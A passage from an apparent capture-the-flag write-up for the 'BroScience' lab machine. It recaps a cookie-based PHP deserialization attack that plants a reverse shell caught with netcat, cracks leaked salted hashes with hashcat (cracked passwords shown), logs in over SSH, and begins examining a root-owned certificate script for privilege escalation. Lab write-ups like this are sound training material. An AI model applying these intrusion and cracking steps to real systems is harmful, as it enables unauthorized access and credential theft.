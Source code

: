 To recap the steps are:
- create an `attack.php` to inject our `$imgpath` & `$tmp` into the php serialized object
- get a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell) & host it with python's simple http server
- modify our `user-prefs` cookie to write our php shell onto the server
- open up a `netcat` listener & navigate to `https://broscience.htb/evShell.php`

![[write-ups/images/Pasted image 20230224183853.png]]


## Getting user

Remember the `db_connect.php` file which leaked the database creds? It's finally time to make use of them by connecting to the postgresql with the `psql` client:

![[write-ups/images/Pasted image 20230224190943.png]]

Now let's try to crack them using `hashcat`

```bash
# format them with "hash:salt" = 5d15340bded5b9395d5d14b9c21bc82b:NaCl
hashcat -m 20 hashes /usr/share/wordlists/rockyou.txt

5d15340bded5b9395d5d14b9c21bc82b:NaCl:Aaronthehottest
bd3dad50e2d578ecba87d5fa15ca5f85:NaCl:2applesplus2apples
62d19f7e7ddcb5946728776d25e410ed:NaCl:password
13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym
```

From our `www-data` shell we know that the only active user on the machine is `bill` so we can SSH with him & get our user.txt flag:

```bash
$ ssh bill@broscience.htb   
bill@broscience:~$ cat user.txt 
babecb64768734a83c06d030bfcea8a7
```


## Privesc

After some basic enumeration, I found a bash script owned by root in `/opt/renew_cert.sh`

```bash
#!/bin/bash

if [ "$#" -ne 1 ] || [ $1 == "-h" ] || [ $1 == "--help" ] || [ $1 == "help" ]; then
    echo "Usage: $0 certificate.crt";
    exit 0;
fi

if [ -f $1 ]; then
    openssl x509 -in $1 -noout -checkend 86400 > /dev/null

    if [ $? -eq 0 ]; then
        echo "No need to renew yet.";
        exit 1;
    fi

    subject=$(openssl x509 -in $1 -noout -subject | cut -d "=" -f2-)

    country=$(echo $subject | grep -Eo 'C = .{2}')
    state=$(echo $subject | grep -Eo 'ST = .*,')
    locality=$(echo $subject | grep -Eo 'L = .*,')
    organization=$(echo $subject | grep -Eo 'O = .*,')
    organizationUnit=$(echo $subject | grep -Eo 'OU = .*,')
    commonName=$(echo $subject | grep -Eo 'CN = .*,?')
```